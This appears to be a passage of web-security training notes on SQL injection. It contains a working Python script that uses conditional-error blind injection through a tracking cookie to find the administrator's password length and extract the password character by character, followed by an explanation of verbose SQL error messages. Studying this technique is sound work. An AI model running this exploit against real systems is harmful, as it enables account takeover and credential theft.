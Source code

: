 ```python
# Sample payload: ' AND (SELECT CASE WHEN (username = 'administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
def blind_sql(payload):
    global burp0_url
    global burp0_cookies
    modified_cookies = burp0_cookies.copy()
    modified_cookies["TrackingId"] += payload
    res = requests.get(burp0_url, cookies=modified_cookies)
    return "Internal Server Error" in res.text


def password_length():
    for i in range(1, 100):
        print(f"Trying length: {i}")
        payload = f"' AND (SELECT CASE WHEN LENGTH(password)={i} THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username = 'administrator')='a"
        if blind_sql(payload):
            return i
        
def get_password():
    password = ""
    # length = password_length()
    length = 20
    print(f"Password length: {length}")
    for i in range(1, length + 1):
        for char in charset:
            payload = f"' AND (SELECT CASE WHEN SUBSTR(password, {i}, 1) = '{char}' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username = 'administrator')='a"
            if blind_sql(payload):
                password += char
                print(password)
                break
    return password
print(get_password())
```

## Extracting sensitive data via verbose SQL error messages

Misconfiguration of the database sometimes results in verbose error messages. These can provide information that may be useful to an attacker. For example, consider the following error message, which occurs after injecting a single quote into an`id`parameter:

```
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```

This shows the full query that the application constructed using our input. We can see that in this case, we're injecting into a single-quoted string inside a`WHERE`statement. This makes it easier to construct a valid query containing a malicious payload. Commenting out the rest of the query would prevent the superfluous single-quote from breaking the syntax.
